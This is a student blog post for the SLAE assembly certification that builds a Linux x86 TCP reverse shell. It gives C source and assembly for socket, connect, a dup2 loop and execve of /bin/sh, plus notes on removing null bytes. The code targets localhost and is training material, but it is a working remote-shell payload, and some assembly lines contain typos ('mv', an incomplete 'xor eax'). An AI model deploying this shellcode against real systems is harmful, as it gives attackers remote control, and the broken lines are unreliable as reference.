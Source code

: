 ```yaml
---
layout: single
title: "SLAE: Custom TCP Reverse shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-17
header:
  teaser: #/assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

Student ID: SLAE - 1532


This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload.
**What is the difference between the bind shell we created in our previous post and a reverse shell?**
Simply put, a BIND shell will open a port and start listening, when a connection is established a program (usually sh, bash, PS, cmd etc) and redirect all input and output the incoming connection. 
In a similar fashion a reverse shell will send a program over the wire to a listening port, and redirect all input.

To demonstrate I have made some modifications to my [previous C code](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/bind_tcp_shell.c), which basically consisted of removing the entire bid, listen and accept sections, and added connect:
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int socketfd;
struct sockaddr_in servaddr;

int main() { 
	//Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(AF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

	//Initialize servaddr struct 
    servaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    servaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //connect to remote address
    connect(socketfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

	//Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
}
```

Just from amending the code, I have a pretty good idea on how this is going to go down. Much of the code will be the same as the [previous blog](https://rawrradiomouse.github.io/slae-1/), with the main difference being that we have to consider that some ip addresses may have x00 in them.

* __NR_socketcall	  102
    * SYS_CONNECT	3
* __NR_dup		     41
* __NR_execve		   11


![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value goes in al
* function type goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mv bl, 1     ; we set function to 1, which is the value of socket
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
**IT TOOK ME A LONG TIME TO FIGURE WHY MY SHELL WOULD NOT WORK, it is because as we are sending the connection out and not waiting we need to call dup BEFORE we send the shell down the wire.**
The DUP syscall section is as it was in our bind exercise.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx
    xor eax
loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

As we see from the man page,, the connect syscall follows the same structure as listen. The only difference is that we need to be mindful of nulls in the address - I opted to try and solve this issue by pushing an ip with each octet incremented by 1, only to subract again straight after.

![connect](/assets/images/SLAE_2/2.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ecx, ecx
    mov ecx, 0x02010180 ; push 128.1.1.2 (flipped, so it actually goes on as 2.1.1.128)
    sub ecx, 0x01010101 ; subtract 1.1.1.1
    push ecx ; push our modified address on
    push word 0x5C11 ; push on reversed value of 4444
    push word 0x2 ; push value of AF_INET
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    xor ebx, ebx
    mov bl, 3 ; we set function to 3, which is the value of connect
    xor eax, eax
    mov al, 102
    int 0x80
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
I compiled my code and tested, reverse shell was caught and succesful:
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_2/3.JPG)


It is time to work on our wrapper, I used [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) to extract the shellcode: 
![connect_to_shell](/assets/images/SLAE_2/4.JPG)

I took my original [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) and [edited it](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) to make a reverse shell version.

A per screen below the script is both fool-proof and accurate.
![rev_wrapper.py](/assets/images/SLAE_2/5.JPG)

I tested my shellcode, and hit a brick wall... My shell would send back when compiled in nasm, but not with c!!
This is due to the fact I did not xor out EBX, thsi is very important when running code in c, as we do not know what the register state could end up being.

I perservered with the help from a friend, and as below, caught my shell sent from shellcode :)
![rev_wrapper.py](/assets/images/SLAE_2/6.JPG)
![rev_wrapper.py](/assets/images/SLAE_2/7.JPG)


